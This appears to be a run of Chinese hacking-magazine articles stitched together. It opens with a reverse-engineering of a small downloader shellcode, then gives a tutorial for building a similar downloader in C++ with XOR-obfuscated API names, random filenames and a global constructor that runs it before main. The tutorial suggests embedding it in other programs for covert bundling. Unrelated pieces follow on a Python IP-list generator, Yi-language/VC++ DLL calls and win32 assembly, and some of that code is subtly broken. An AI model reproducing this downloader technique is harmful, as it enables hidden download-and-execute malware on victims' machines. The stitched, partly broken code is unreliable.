; ebp用于保存ENT中定位到GetProcAddress函数时的计数
4AD7505D      E2 E9           loopd   short 4AD75048
; 循环查询
4AD7505F      59              pop     ecx
4AD75060      5F              pop     edi
4AD75061      5E              pop     esi
```

```text
4AD75064      8B46 24         mov     eax, dword ptr [esi+24]
; esi+0x24 ordinal序号表偏移地址
4AD75067      03C3            add     eax, ebx
; ordinal序号表的虚拟地址
4AD75069      D1E1            shl     ecx, 1
; ecx逻辑增加2倍，因为ordinal序号是WORD类型
4AD7506B      03C1            add     eax, ecx
4AD7506D      33C9            xor     ecx, ecx
; ecx=0
4AD7506F      66:8B08         mov     cx, word ptr [eax]
; 保存取出的ordinal序号
4AD75072      8B46 1C         mov     eax, dword ptr [esi+1C]
; eax为kernel32.dll的EAT偏移地址
4AD75075      03C3            add     eax, ebx
; eax=kernel32.dll的EAT虚拟地址
4AD75077      C1E1 02         shl     ecx, 2
; 同上，扩大4倍，因为EAT中元素为DWORD值
4AD7507A      03C1            add     eax, ecx
4AD7507C      8B00            mov     eax, dword ptr [eax]
; eax即为GetProcAddress函数的地址（RVA）
4AD7507E      03C3            add     eax, ebx
; 与基址相加获得GetProcAddress函数的虚拟地址
4AD75080      8BFA            mov     edi, eax
; GetProcAddress指针到edi
4AD75082      8BF7            mov     esi, edi
; esi保存GetProcAddress地址
4AD75084      83C6 0E         add     esi, 0E
; esi指向GetProcAddress字符串的末地址
```

```asm
8BD0              mov edx, eax
; edx为GetProcAddress的地址
4AD75089   6A 04  push 4
...
59               pop ecx
; ecx=4
```

在详细描述这段代码的具体过程之前，我们需要先了解一些基础知识。程序往往有很多功能交集，比如两个程序 A 和 B 都有输出“Hello World”的功能，输出功能便是它们的交集，将很多程序的功能交集提取出来就是“库”。对程序 A 和 B 来说就是 C 库函数 printf。库分静态链接库和动态链接库，它们两个的本质区别是：静态链接库的代码会添加到程序中，而动态链接库的代码不会添加到程序中。它通过一种称作导入表的数据结构来记录程序运行时需要的库、所需库中的函数及这些函数的地址，从而实现运行时对库函数的调用，它的结构如图4所示。

每一个程序所需要的库（即 DLL 文件）都有一个如图4的结构，OriginalFirstThunk 指明了程序运行所需库中函数的函数名。通过这些名字，在程序加载时，由操作系统找到对应函数的地址，并写入 IAT（导入地址表）以备程序运行时调用。

对于 DLL 的加载有两种方式，一种是如上所说的通过 PE 结构中的导入表实现，一种是通过 API 函数 `LoadLibrary()` 来加载。通过该函数加载后，借助于 `GetProcAddress` 函数即可获取相应函数地址。换句话说，我们只要找到 `GetProcAddress()` 函数地址，就可以调用 Windows 中任何可用的 API，这样就为 ShellCode 的功能实现打好了基础。因此上面代码的主要目的就是获取 `GetProcAddress` 函数的地址，那么具体的操作是如何进行的呢？

- 首先通过段选择子 FS 在内存中找到当前线程的环境控制块 TEB（Thread Environment Block）。
- TEB 偏移位置为 `0x30` 的地方存放着指向进程环境控制块 PEB（Process Environment Block）的指针。
- PEB 中偏移位置为 `0x0C` 的地方存放着指向 PEB_LDR_DATA 结构体的指针，其中存放着已经被进程装载的动态链接库信息（DLL）。
- PEB_LDR_DATA 结构体偏移位置为 `0x1C` 的地方存放着指向模块初始化链表头的指针 `InitializationOrderModuleList`。
- 模块初始化链表 `InitializationOrderModuleList` 中按顺序存放着 PE 在装入运行时初始化模块的信息，第一个链表节点是 `ntdll.dll`，第二个链表节点就是 `kernel32.dll`。
- 找到属于 `kernel32.dll` 的结点后，在其基础上再偏移 `0x08` 就是 `kernel32.dll` 在内存中的加载基址。
- 从 `kernel32.dll` 的加载基址算起，偏移 `0x3C` 的地方就是其 PE 头。
- PE 头偏移 `0x78` 的地方存放着指向函数导出表的指针。
- 导出表偏移 `0x1C` 处的指针存储导出函数偏移地址（RVA）列表，导出表偏移 `0x20` 处的指针指向函数名列表。函数的 RVA 地址和名字按顺序存放在上述两个列表中，我们可以在名称列表中定位到所需要的函数是第几个，然后在地址列表中找到对应的 RVA。获得 RVA 后，再加上前边已经得到的动态链接库加载基址，就获得了所需 API 的虚拟内存地址。

文字描述往往使人费解，你可以参考上面的反汇编代码，或者用 OD 随便载入一个程序，按照上面所说的内容定位一次。

### 2.2 实现下载者的功能

完成了上面的任务后，接下来的操作便是通过已获得地址的 `GetProcAddress()` 来分别得到 `GetSystemDirectory()`、`URLDownLoadToFile()`、`WinExec()` 及 `ExitProcess()` 函数的地址，并依次执行，具体代码如下：

```asm
4AD7508C ... E8
50000000      call 4AD750E1
; 设置IAT，得到4个函数的地址
```

```asm
; 从这里开始实现ShellCode的真正功能
push edx
push esi
call dword ptr [edi-4]      ; 调用LoadLibraryA来加载urlmon.dll
pop edx                     ; edx = GetProcAddress的地址
mov ebx, eax
push 1
pop eax
call 4AD750E1               ; 再次设置IAT，得到URLDownloadToFileA
add esi, 13
push esi
inc esi
cmp byte ptr [esi], 80
jnz short 4AD750A8
xor byte ptr [esi], 80
pop esi
sub esp, 20                 ; 开辟32 byte栈空间
mov ebx, esp                ; ebx为栈区的指针
...
push ebx
call dword ptr [edi-14]     ; 调用GetSystemDirectoryA得到系统目录
mov dword ptr [ebx+eax], 652E615C
mov dword ptr [ebx+eax+4], 6578
; 拼接下载后的文件路径 %systemroot%\system32\a.exe
xor eax, eax
push eax
push eax
push ebx
push esi
push eax
call dword ptr [edi-4]      ; URLDownloadToFile下载文件为a.exe
mov ebx, esp
push eax
push ebx
call dword ptr [edi-10]     ; WinExec执行代码
push eax
call dword ptr [edi-C]      ; ExitThread退出线程
```

## 2.3 ShellCode的内存数据区

分析4AD750E1开始处的代码，不难发现，ShellCode将上面的四个函数组成了一个函数指针表，类似于IAT的实现。如果相应的内存只能读，则一定会出异常，因此这个ShellCode一般不能直接用于病毒感染exe文件，或者说在感染……


到这里，这个300字节的下载者就分析完成了，希望对那些希望涉足缓冲区溢出的兄弟们有所帮助。

## 三、巩固练习：根据分析写一个类似的下载者

既然是逆向分析，在分析完成后，肯定要写一个类似的东西作为巩固。我的思路是编写一个Windows的示例程序，让下载者在示例程序中运行，或者说直接实现源码层的下载者掩码。接下来看一下具体的功能。

### 3.1 异或加密的实现

首先我们需要对程序运行时需要的API函数进行xor异或处理，相应的函数名、DLL名分别与123进行异或处理，并保存。

```c
CHAR *szUrl = "http://127.0.0.1/cmd.exe";   // 这里作为下载者的地址
DWORD dwIat[4] = {0};                       // 用于保存下载者需要的函数地址
CHAR szTmp[256];                            // temp文件目录
CHAR szFileName[0xC];                       // 用于保存生成的随机数字文件名
CHAR szFunc1[] = "...";                     // LoadLibraryA xor 123
CHAR szFunc2[] = "...";                     // WinExec xor 123
CHAR szDllName[] = "...";                   // UrlMon.dll xor 123
CHAR szFunc3[] = "...";                     // URLDownloadToFileA xor 123
DWORD dwBase = 0;
```

程序在运行时需要对异或数据进行解码，代码如下：

```c
void __stdcall DecodeString(char *P, unsigned bValue)
{
    for (size_t inx = 0; inx != strlen(P); ++inx)
    {
        P[inx] ^= bValue;
    }
}
```

### 3.2 下载文件随机命名

下载者下载文件后会保存到系统的temp目录中，这里新增了一个功能，让每次下载的文件都是随机命名的，代码如下：

```cpp
DWORD __stdcall FileName(void)
{
    FILETIME ft = {0};
    GetSystemTimeAsFileTime(&ft);
    ft.dwHighDateTime ^= ft.dwLowDateTime;
    ft.dwHighDateTime ^= GetCurrentProcessId();
    ft.dwHighDateTime ^= GetCurrentThreadId();
    ft.dwHighDateTime ^= GetTickCount();
    return ft.dwHighDateTime;
}
```

### 3.3 下载者的功能实现

下载者的功能实现部分，我们将其整合到一个线程函数中，限于篇幅这里不再贴源码了，我已经将示例源码打包。

### 3.4 下载者线程的抢先执行

在C++的面向对象中，我们知道全局对象是在main函数执行之前进行初始化的，在初始化的时候会调用相应的构造函数，因此在构造函数中我们实现下载者线程的创建即可实现下载者运行的抢先执行，代码如下：

```cpp
class test
{
public:
    test();
};

test::test()
{
    UINT id = 0;
    HANDLE hthread = (HANDLE)_beginthreadex(NULL, 0, DownLoader, NULL, 0, &id);
    WaitForSingleObject(hthread, INFINITE);
}

test g_downloader;
```

当编写其它程序时，只需要将以上代码嵌入进工程源码中即可实现源码级的下载者捆绑，这里就不再赘述。到这里Lion的下载逆向分析之旅就完成了！

## Python学习笔记之生成给定范围内的IP地址列表

最近在学Python，学了点基础知识后就想写个解决实际问题的小东西，一来加强对Python基础知识的掌握，二来也体验下coding的乐趣。

## 一、程序要实现的功能

用过扫描器的朋友都知道，它可以扫描某个IP范围，只需要指定开始IP和结束IP就行了。程序要实现的功能就是给定开始IP和结束IP，把这个范围内的IP地址每个IP地址作为一行写入文件中，比如给定的开始IP为210.210.210.0，给定的结束IP为210.210.210.255，则生成文件的内容为：

- 210.210.210.0
- 210.210.210.1
- 210.210.210.2
- ……
- 210.210.210.253
- 210.210.210.254
- 210.210.210.255

生成的文件也可以看作是一个包含了IP地址的字典文件，扫描某个IP段内那些开放了某个端口的主机时可能会用到。

## 二、程序实现的思路

把每一条IP地址每个一行写入文件很简单，对我来说比较难的是生成给定范围内的IP地址，不能重复，也不能漏掉。一开始想的是把IP地址的4个部分都设变量，然后嵌套循环生成，尝试了一下不行，存在逻辑错误。

后来想到如果把IP地址的4个部分看作是进制为256的某个数，每个IP地址就可以用唯一的一个整数来表示。给定开始IP和结束IP后，只需把开始IP和结束IP转换成对应的整数，弄个循环，开始IP转换成的整数每次加1，就可以得到所有给定范围内的IP所对应的整数，然后把得到的整数再转换成对应的IP地址就行了。

## 三、第一次实践

用来实现功能的环境为：

- 操作系统：虚拟机里的 Windows 2003 系统
- Python版本：Python 2.7.2

假设把IP地址以“.”为分隔从左到右分为4个部分，依次称为第一部分、第二部分、第三部分、第四部分，则第四部分+第三部分\*256+第二部分\*65536+第一部分\*16777216就是该IP地址对应的整数。把整数转换成IP的4个部分有点麻烦，不过经过多次测试实现了。第四部分最好得到，直接对256取余就行。第三部分得到的方式是整数先对65536取余再除以256。第二部分的获得方法为先对16777216取余再除以65536。第一部分直接整数除以16777216就获得了。这是生成IP地址的关键部分，关键代码为：

```python
f.write(str(start_num//16777216)+'.'+str(start_num%16777216//65536)+'.'+str(start_num%65536//256)+'.'+str(start_num%256)+'\n')
```

程序的完整代码为：

```python
#!/usr/bin/python
# -*- coding: gb2312 -*-
# filename: makeip.py
# author: txcbg
# Python学习笔记之生成给定范围内的IP地址列表

import sys
import random
import time

def shower():
    print '你输入的IP地址格式不正确'

def usage():
    print 'usage: python', sys.argv[0], 'startip endip'

...
```

```python
if len(sys.argv)!=3:
    usage()
    sys.exit()

startip = sys.argv[1].split('.')
endip = sys.argv[2].split('.')

startip_1 = int(startip[0])
startip_2 = int(startip[1])
startip_3 = int(startip[2])
startip_4 = int(startip[3])

if ((startip_1 not in range(0,256)) or (startip_2 not in range(0,256)) or (startip_3 not in range(0,256)) or (startip_4 not in range(0,256))):
    shower()
    sys.exit()

endip_1 = int(endip[0])
endip_2 = int(endip[1])
endip_3 = int(endip[2])
endip_4 = int(endip[3])

if ((endip_1 not in range(0,256)) or (endip_2 not in range(0,256)) or (endip_3 not in range(0,256)) or (endip_4 not in range(0,256))):
    shower()
    sys.exit()
```

```python
start_num = startip_4 + 256*startip_3 + 65536*startip_2 + 16777216*startip_1
end_num = endip_4 + 256*endip_3 + 65536*endip_2 + 16777216*endip_1
num = end_num - start_num + 1

if start_num > end_num:
    print '开始IP大于结束IP，你确认没输错？'
    sys.exit()
else:
    start_time = time.time()
    print 'There are total %d IP' % num
    f = open(r'c:\ip.txt','w')
    while start_num <= end_num:
        # 生成IP地址的关键代码
        f.write(str(start_num//16777216)+'.'+str(start_num%16777216//65536)+'.'+str(start_num%65536//256)+'.'+str(start_num%256)+'\n')
        start_num += 1
    f.close()
```

```python
...num%256)+'\n')
    start_num+=1
f.close()
endtime = time.time()
timeuse = endtime-starttime
print 'use %.6f seconds' % timeuse
```


程序的文件名为makeip.py。来测试下功能是否正常。假设开始IP为210.210.210.0，结束IP为210.210.210.255，输入python makeip.py 210.210.210.0 210.210.210.255，回车，显示如图1。显示程序运行用了0.015000秒。打开生成的C盘根目录下的文件ip.txt，IP地址在里面了，如图2。


## 四、改进程序——加入显示程序执行进度功能

上面的程序虽然实现了预期的功能，但有一个明显的不足，就是当要生成的IP范围很大时，程序要执行比较长的时间。但程序没有显示任何执行进度的信息，程序执行了多少了，估计什么时候完成，你都无法估计，面前只有一个类似如图5的正在执行状态的命令窗口。所以考虑对上面的程序做一些改进，加入显示程序执行进度的功能。


再把范围弄得大一点，输入python makeip.py 210.210.210.0 210.210.255.255，回车，显示共有11776个IP，用时0.062000秒，如图3。再次打开生成的文件ip.txt，显示如图4，生成的IP地址是预期的。程序实现了预期的功能。


当前程序的执行进度可以通过当前IP地址对应的整数减去开始IP对应的整数再除以生成IP的个数获得，相关代码为：

```python
s="complete %5.2f%%" % ((start_num-start_num_old)/num*100)
```

为了能在同一个地方刷新显示程序执行的百分比，用到的方法是先用sys模块中的stdout.write()函数输出程序执行的百分比，接着还是用stdout.write()函数输出`\b`抹去刚才输出的字符的输出，再输出，再抹去，……，如此循环，达到目的。为了得到执行的百分比，还要从 `__future__` 模块导入 `division`，否则比如 1/3 得到的是 0，得不到想要的小数。图6是导入 `division` 前后执行 1/3 的比较，对比很明显吧。

修改后的代码为：

```python
#!/usr/bin/python
# -*- coding: gb2312 -*-
from __future__ import division
# Filename: makeip_ver2.py
# author: txcbg http://hi.baidu.com/txcbg
# Python学习笔记之生成给定范围内的IP地址列表

import sys
import random
import time

def showerr():
    print "你输入的IP地址格式不正确!"

def usage():
    print "usage : python", sys.argv[0], "startip endip"

def Showjindu():
    s="complete %5.2f%%" % ((start_num-start_num_old)/num*100)
    length=len(s)
    sys.stdout.write(s)
    sys.stdout.write('\b'*length)

if len(sys.argv)!=3:
    usage()
    sys.exit()

startip = sys.argv[1].split('.')
endip = sys.argv[2].split('.')

startip_1 = int(startip[0])
startip_2 = int(startip[1])
startip_3 = int(startip[2])
startip_4 = int(startip[3])

if ((startip_1 not in range(0,256)) or (startip_2 not in range(0,256)) or (startip_3 not in range(0,256)) or (startip_4 not in range(0,256))):
    showerr()
```

```python
sys.exit()

endip_1 = int(endip[0])
endip_2 = int(endip[1])
endip_3 = int(endip[2])
endip_4 = int(endip[3])

if ((endip_1 not in range(0,256)) or (endip_2 not in range(0,256)) or (endip_3 not in range(0,256)) or (endip_4 not in range(0,256))):
    showerr()
    sys.exit()

start_num = startip_4+256*startip_3+65536*startip_2+16777216*startip_1
start_num_old = startip_4+256*startip_3+65536*startip_2+16777216*startip_1
end_num = endip_4+256*endip_3+65536*endip_2+16777216*endip_1
num = end_num-start_num+1

if start_num>end_num:
    print "开始IP大于结束IP，你确认没输错？"
    sys.exit()
else:
    starttime = time.time()
    print "There are total %d IP" % num
    f = open('c:\\ip.txt','w')
    while start_num<=end_num:
        # 生成IP地址的关键代码
        f.write(str(start_num/16777216)+'.'+str(start_num%16777216/65536)+'.'+str(start_num%65536/256)+'.'+str(start_num%256)+'\n')
        start_num+=1
        Showjindu()
    f.close()
    endtime = time.time()
    timeuse = endtime-starttime
    print "use %.6f seconds" % timeuse
```

这样程序执行过程中就能显示程序的执行进度了，如图7、8。

## 五、再次改进程序——提升性能

经过上面的修改，虽然能显示程序的执行进度了，但……感觉程序明显执行得慢了。比如输入 `python makeip_ver2.py 210.210.210.0 210.211.255.255`，生成 77312 个 IP，程序用时 58.984000 秒，如图9。注释掉 `makeip_ver2.py` 中的 `showjindu()` 这一行（即不再显示执行进度）后再次执行，同样生成 77312 个 IP，这次只用时 0.484000 秒，如图10。性能差距很大，说明显示进度函数消耗了大量时间。


怎样实现每隔一秒执行一次函数呢？一开始想到 `time.sleep()`，也尝试过 `sched` 模块但没成功。后来在程序中 `print time.time()`，发现结果类似 `1336531175.09`、`1336531177.68`、`1336531179.06`，如图11。


想了想原因，发现每生成一个 IP 就要调用一次显示进度函数 `showjindu()`，其中有计算式 `(start_num-start_num_old)/num*100`，推测其占用了大量执行时间。若每秒生成约 15 万个 IP，则 `showjindu()` 每秒也会被调用 15 万次，远超人眼可感知刷新需求，因此频繁刷新并无意义。作者尝试改成“每秒仅显示一次进度”。

可以把 `time.time()` 按百分之一秒处理：`int(time.time()*100)%100`。当该值为 0 时，可视为跨过了 1 秒。于是写了一个小程序进行验证，代码如下：

```python
#!/usr/bin/python
# Filename jindutest.py

import time

while True:
    if int(time.time()*100)%100==0:
        print "yes"
        break
```

输入 `python jindutest.py`，看到输出了 `yes`，如图12，说明 `int(time.time()*100)%100==0` 在特定时刻会成立。


看来这个方法可行，经过修改后的 `showjindu()` 函数代码为：

```python
def showjindu():
    if (int(time.time()*100)%100==0):
        s='complete %5.2f%%' % ((start_num-start_num_old)/num*100)
        length=len(s)
        sys.stdout.write(s)
        sys.stdout.write('\b'*length)

if ((startip_1 not in range(0,256)) or (startip_2 not in range(0,256)) or (startip_3 not in range(0,256)) or (startip_4 not in range(0,256))):
    showerr()
    sys.exit()

endip_1 = int(endip[0])
endip_2 = int(endip[1])
endip_3 = int(endip[2])
endip_4 = int(endip[3])

if ((endip_1 not in range(0,256)) or (endip_2 not in range(0,256)) or (endip_3 not in range(0,256)) or (endip_4 not in range(0,256))):
    showerr()
    sys.exit()
```

再加入点异常处理代码，程序经过再次修改后的完整代码为：

```python
#!/usr/bin/python
# -*- coding: gb2312 -*-
from __future__ import division
# Filename: makeip_ver3.py
# author: txcbg http://hi.baidu.com/txcbg
# Python学习笔记之生成给定范围内的IP地址列表

import sys
import random
import time

def showerr():
    print '你输入的IP地址格式不正确'

def usage():
    print 'usage: python '+sys.argv[0]+' startip endip'

def showjindu():
    if (int(time.time()*100)%100==0):
        s='complete %5.2f%%' % ((start_num-start_num_old)/num*100)
        length=len(s)
        sys.stdout.write(s)
        sys.stdout.write('\b'*length)

if len(sys.argv)!=3:
    usage()
    sys.exit()

startip = sys.argv[1].split('.')
endip = sys.argv[2].split('.')

startip_1 = int(startip[0])
startip_2 = int(startip[1])
startip_3 = int(startip[2])
startip_4 = int(startip[3])

if ((startip_1 not in range(0,256)) or (startip_2 not in range(0,256)) or (startip_3 not in range(0,256)) or (startip_4 not in range(0,256))):
    showerr()
    sys.exit()

endip_1 = int(endip[0])
endip_2 = int(endip[1])
endip_3 = int(endip[2])
endip_4 = int(endip[3])

if ((endip_1 not in range(0,256)) or (endip_2 not in range(0,256)) or (endip_3 not in range(0,256)) or (endip_4 not in range(0,256))):
    showerr()
    sys.exit()

start_num = startip_4 + 256*startip_3 + 65536*startip_2 + 16777216*startip_1
start_num_old = startip_4 + 256*startip_3 + 65536*startip_2 + 16777216*startip_1
end_num = endip_4 + 256*endip_3 + 65536*endip_2 + 16777216*endip_1
num = end_num-start_num+1

try:
    if start_num>end_num:
        print '开始IP大于结束IP，你确认没搞错？'
        sys.exit()
    else:
        starttime = time.time()
        print 'There are total %d IP' % num
        f = open(r'c:\ip.txt','w')
        while start_num<=end_num:
            # 生成IP地址的关键代码
            f.write(str(start_num/16777216)+'.'+str(start_num%16777216/65536)+'.'+str(start_num%65536/256)+'.'+str(start_num%256)+'\n')
            start_num += 1
            showjindu()
        f.close()
        endtime = time.time()
        timeuse = endtime-starttime
        print 'use %.6f seconds' % timeuse
except KeyboardInterrupt:
    pass
```

```python
sys.exit()
```


输入 `python makeip_ver3.py 210.210.210.0 210.230.255.255`，生成 1322496 个 IP，用时 12.500000 秒，显示程序执行进度功能正常，如图13、14。不显示进度的 makeip.py 生成同样的 IP 用时 7.391000 秒，如图15。为了显示程序进度多花了不到一倍的时间，每秒生成 10 万多个 IP，还是在我的老爷机上的虚拟机中，效率勉强可以接受。


## 六、程序还可以改进的地方

程序还有可以改进的地方。比如生成的保存 IP 的文件可以改成自定义的，那样可以更灵活。另外，总觉得显示程序执行进度的代码可以再改进，进一步提高效率，有更好显示程序执行进度思路和方法的朋友欢迎和我交流。

我初学 Python，代码有写得不好的地方欢迎指正。有实现生成给定范围内的 IP 地址列表更简单方法的朋友欢迎和我交流。

## vc++ & 易语言

最近在学习易语言，由于我的主打语言是 vc++，所以第一看易语言的时候感觉怪怪的，看了一段时间之后发现这个语言的编程模式确实简单，没有那么多繁琐的语法限定与规则；确实适合没有学过编程语言的人学习使用，而且它的应用软件编程能力不亚于 vc++，或者说在开发速度上高于 vc++。尤其是在界面的组件功能上，实在是太强大了，现在我有一种冲动，打算用 vc++ 与易语言联合使用来开发我的程序，当然这显然不太符合公司的规定。本文就介绍一下这两种编程语言通过生成 dll 动态链接库来实现相互调用，实现功能的扩展与互补。

首先来看一下在易语言中怎么生成 dll 与 dll 的调用方法。打开易语言开发平台后，我们首先将默认的对话框模式的程序关闭，然后点击“程序”“新建”，弹出如图1所示的向导对话框，我们选择“Windows 动态链接库”模式，完成后就会产生向导代码。由于易语言的代码都是表格性质的，不便于粘贴，所以这里就直接截图了，如图2所示。

我们来讲解一下当前的代码作用。在向导生成的代码中，包含了两个子程序，一个是“_启动子程序”，另一个是“_临时子程序”。对于“_启动子程序”我们可以把它跟 C++ 中 dll 的 dllmain 来类比看待，它的作用就是在 dll 加载的时候启动。对于“_临时子程序”，后面已经给了我们很详细的注释：

本名称子程序用作测试程序用，仅在开发及调试环境中有效，编译发布程序前将被系统自动清空，请将所有用作测试的临时代码放在本子程序中。***注意不要修改本子程序的名称、参数及返回值类型。*

其实这个程序的作用就是方便我们在 dll 开发过程中实现对 dll 的测试。在 vc++ 中 dll 的开发调试需要用到两个应用程序同步测试，但在易语言中我们不需要另外写一个程序来进行测试，直接在这个子程序中就可以测试我们的 dll 功能。


# 黑客编程


图2

下面就可以写我们的 dll 功能代码了。快捷键 Ctrl+N 来创建一个子程序（“子程序”这个名称不太习惯，我还是用“函数”吧），我们给新增的函数命名为“e_dll”，返回值为整型，参数为两个整数，“公开”这个选项一定要选上，否则我们的 dll 函数将无法导出。我们来实现一个简单的加法功能，代码如图3所示（由于受 C++ 的影响，变量还是习惯于英文）。

由于易语言属于智能编译，我们在每一行代码编写完毕回车到下一行的时候，代码都会编译一次，所以我们可以在第一时间内发现代码错误。功能代码写完之后，我们在临时子程序中测试一下我们的代码，测试代码如图4所示，这里我们添加了一个临时变量 res 来存放返回值。测试函数运行之后将调用我们的函数，并将结果用提示框提示我们，这个与我们 vc++ 中的 MessageBox() 的功能是一样的，运行结果如图5所示。为了在没有安装易语言开发平台的机器上也能够使用我们的程序，我们在编译的时候需要使用静态编译，或者导出支持库。


图3


图7


图4


图8


图6


图9

dll 写完了，下面我们看一下在易语言中我们应该怎么调用 dll 中的函数。我们新建一个窗口程序，添加一个按钮，双击按钮为单击事件添加代码。我们在开发平台左栏找到“DLL 命令”，点击右键，选择“插入新的 dll 命令”，此时将出现一个空白的文档，我们在空白的文档上单击右键选择“新 dll 命令”，平台会自动地为我们添加相应的代码，如图7所示。

“dll 命令名”指的是我们在当前程序中使用的 dll 中的函数的名字，算是一个别名；当然这个命令的属性应该与目标函数的属性一致，有返回值。“dll 库文件名”就是我们要调用的 dll 的文件；“在 dll 中对应的命令名”就是我们 dll 中的原始函数名，注意这里是有参数的，参数名不需要与 dll 中的完全相同。在 dll 命令添加完毕后，这个“dll 命令名”我们就可以直接使用了，代码如图8所示。我们传递两个参数，使用信息框来显示函数的返回值，运行结果如图9所示。


易语言调用易语言 dll 的代码我们实现了。下面看一下易语言调用 vc++ 写的 dll 是怎么进行的。由于易语言只支持 stdcall 模式的函数调用，所以我们需要确保目标 dll 的函数导出模式是 stdcall。由于 C++ 编写的 dll 大都使用 C 标准调用，所以在易语言中使用别人发布的 dll 时常会遇到堆栈不平衡的现象，如图10所示。所以在我们自己用 VS 进行 dll 开发的时候需要将调用规范调整为 stdcall 模式，如图11所示。

由于使用了 stdcall 模式，所以在 dll 的导出函数中函数名会被编译器修改，会发生变化，在 VS 中我们的一个函数 myadd 代码如下：

```cpp
__declspec(dllexport) int myadd(int a,int b)
{
    return a+b;
}
```

但是编译完毕之后这个函数名就变成了：`?myadd@@YGHHH@Z`。这一点在我们引用 dll 的时候一定要注意。我们在易语言中新增一个 dll 命令，如图12所示。我们在窗体上新增一个按钮，双击按钮写入单击事件代码，如图13所示。我们运行一下，结果如图14所示。


| dll命令名 | 返回值类型 | 公开 | 备注 |
|---|---|---|---|
| myadd | 整数型 |  |  |

| dll库文件名 |
|---|
| c++.dll |

| 在dll库中对应命令名 |
|---|
| ?myadd@@YGHHH@Z |

| 参数名 | 类型 | 传址 | 数组 | 备注 |
|---|---|---|---|---|
| a | 整数型 |  |  |  |
| b | 整数型 |  |  |  |

| 子程序名 | 返回值类型 | 公开 | 备注 |
|---|---|---|---|
| _按钮2_被单击 |  |  |  |

| 变量名 | 类型 | 静态 | 数组 | 备注 |
|---|---|---|---|---|
| 结果 | 整数型 |  |  |  |

`结果＝myadd(6, 7)`

`信息框（“测试结果：” + 到文本（结果），0，“提示”）`


下面我们使用 C++ 应用程序来调用一下我们使用易语言写的 dll。由于我们的 dll 是 stdcall 调用约定，所以我们必须修改我们应用程序的调用约定，代码如下：

```cpp
typedef int (*lpMyadd)(int,int);
lpMyadd dll_add;

int _tmain(int argc, _TCHAR* argv[])
{
    HINSTANCE hdll=NULL;
    hdll = LoadLibrary(L"e.dll");
    dll_add = (lpMyadd)GetProcAddress(hdll,"e_dll");
    cout << dll_add(6,7) << endl;
}
```

```cpp
Sleep(1000);
FreeLibrary(hd_dll);
system("pause");
return 0;
}
```

运行结果如图15所示。

到这里，我们易语言与 VC++ 模块的混合调用就讲解完毕了。由于易语言支持 stdcall 模式的调用，所以在进行混合编程调用时一定要注意调用约定的统一，否则会造成堆栈的不平衡。

## win32汇编系列教程①

沧海浮萍

从现在开始我来为大家讲解 win32 汇编的编程语法与实例。win32 汇编与 16 位汇编的最大差别在于寻址范围的变化，同时 win32 汇编可以调用 Windows 平台的 API，实现功能的最大化扩展，可以说它是 16 位汇编的功能升级。Windows 32 位汇编的概念性东西就不介绍了，本系列教程假设读者已经具备了 x86 指令系统的基础知识与 C 语言的基本语法概念。

win32 汇编的开发环境——MasmEd_1.2，安装包已经为大家附带了。虽然在代码编写中我们不使用 MASM，但是还是需要安装的，因为我们需要用到它的头文件。开发平台安装完毕后，我们先来熟悉一下平台的特点与注意问题。

由于本文是系列教程的第一节，所以我们首先介绍 win32 汇编的编程环境。微软推出的 MASM32 是标准的 32 位汇编开发环境，但是由于其界面比较简单，个人不太喜欢。习惯了 VS 这样强大的 IDE，所以这里为读者介绍另一个……

平台主界面如图1所示，很友好的界面；不过是英文的，我想这不会成为障碍。界面的布局与我们日常使用的 VC、VS 基本类似，其他的就不多说了，这里只说几个需要注意的点。我们新建一个工程的时候需要……

在“File”菜单中选择“New Code File”，如图2所示。此时会产生一个空白的新文档，对于文档的背景颜色可以通过“Option”菜单下的“Code Editor”进行调整，如图3所示。创建了空白文档之后，我们需要将当前文档设置为主文档，这个操作通过“Make”菜单下的“Set .....”，如图4所示。然后我们需要将这个代码文档保存到一个地方，这个操作可以通过点击保存按钮实现，如图5。这里将它保存到桌面的一个文件夹里。保存完毕后就可以进行我们的代码编写了。

图5

图3

这句话的作用就是表示我们将使用 80386 的指令集进行编码，当然不止这一种指令集，可以使用的还包括：

| 指令 | 说明 |
|---|---|
| 8086 | 选择 8086 指令系统 |
| 286 | 选择 80286 指令系统 |
| 286p | 选择保护模式下的 80286 指令系统 |
| 386 | 选择 80386 指令系统 |
| 386p | 选择保护模式下的 80386 指令系统 |
| 486 | 选择 80486 指令系统 |
| 486p | 选择保护模式下的 80486 指令系统 |
| 586 | 选择 Pentium 指令系统 |
| 586p | 选择保护模式下的 Pentium 指令系统 |
| MMX | 使用 MMX 指令 |

我们来写一个简单的小程序测试一下。在 win32 汇编中，代码的格式与 16 位是不同的。当然，在不同的编译器中也会有所不同，但大致一样。首先我们需要在文件头进行声明：

```asm
.386
.model flat, stdcall
option casemap:none
```

我们分别来讲解一下它们的作用。

`.386`

对于用户态的应用程序来说，使用 `.386` 指令系统已经足够使用；如果想要进行设备驱动程序的开发，则需要使用 `.386p`，p 表示可以使用特权指令。

`.model`

这句伪指令用来描述应用程序的工作模式。由于在当前的 32 位操作系统中，系统的寻址范围为 4G，代码与数据都存放在这个 4G 的空间中，所以在 win32 汇编中不再有 DOS 中分段的概念了。在 win32 汇编中我们统一使用平坦模式，即 flat 模式。该模式自动对寄存器进行了说明：

```asm
assume cs:flat, ds:flat, es:flat, ss:flat, fs:flat, gs:flat
```

`.model` 的语法格式为：`.model 内存模式[,语言模式]`

我们最常使用的就是：`.model flat, stdcall`

`option casemap:none` 这一句用于说明当前的代码对大小写字母敏感。在程序头说明完毕之后，我们就需要进行头文件的包含了，这与 VC++ 是类似的。在我们安装完 MASM 之后，需要用到的头文件路径都会被自动设置完毕，所以我们直接包含就可以了，如下：

```asm
include windows.inc
```

图4

# 黑客编程

```asm
include user32.inc
include kernel32.inc
include masm32.inc

includelib user32.lib
includelib kernel32.lib
includelib masm32.lib
```

```asm
invoke StdOut, addr buffer    ; 显示串
invoke Sleep, 10000           ; 调用 Sleep
invoke ExitProcess, NULL      ; 中止一个进程，退出代码

end start
```

对于普通头文件我们使用 `include` 关键词进行引入；对于 lib 库文件我们使用 `includelib` 进行引入。头文件引入完毕后就需要开始编码了。这里我们引入“节”的概念，这与 PE 文件是一致的。我们使用的指令 `.data`、`.code`、`.data?`、`.const` 进行区分，它们对应的 PE 文件节段分别是 DATA/TEXT/BSS，`.const` 中的数据也将被划到 data 中。

`.data` 中的数据是具有初始值的数据；`.data?` 中的数据是在程序运行后才会使用且未初始化的数据；`.const` 中的数据是不能被修改的数据；`.code` 属于代码区。下面定义几个数据：

```asm
.data
text    db 10,20,30,40
; 4字节数组
buffer  db 10 dup(0)
; 10字节缓冲区
szFmt   db "结果是:%d",0
; 以\0结尾字符串
```
